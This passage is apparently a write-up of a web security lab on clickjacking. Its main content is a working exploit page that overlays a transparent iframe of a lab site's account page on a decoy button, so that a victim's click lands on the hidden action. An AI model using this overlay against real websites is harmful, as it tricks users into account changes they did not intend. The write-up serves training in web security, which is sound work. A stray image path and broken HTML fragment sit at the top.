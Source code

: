   <img src="/captures/03.01.02.png"><br/>
</p>

# 4. Clickjacking
## Lab: Basic clickjacking with CSRF token protection
### Exploit
We create a page with an iframe that contains the target page and a button that the user is tricked into clicking.

```html
<head>
<style>
    iframe {
        position:relative;
        width:400px;
        height:700px; 
        opacity: 0.5;
        z-index: 2;
    }
    #decoy {
        position:absolute;
        top: 480px;
        left: 70px;
        width:300px;
        height:400px;
        z-index: 1;
    }
</style>
</head>
<body>
<div id="decoy">Test me</div>
<iframe src="https://0afa00bd0439d03c8145575d00210064.web-security-academy.net/my-account"></iframe>
</body>
```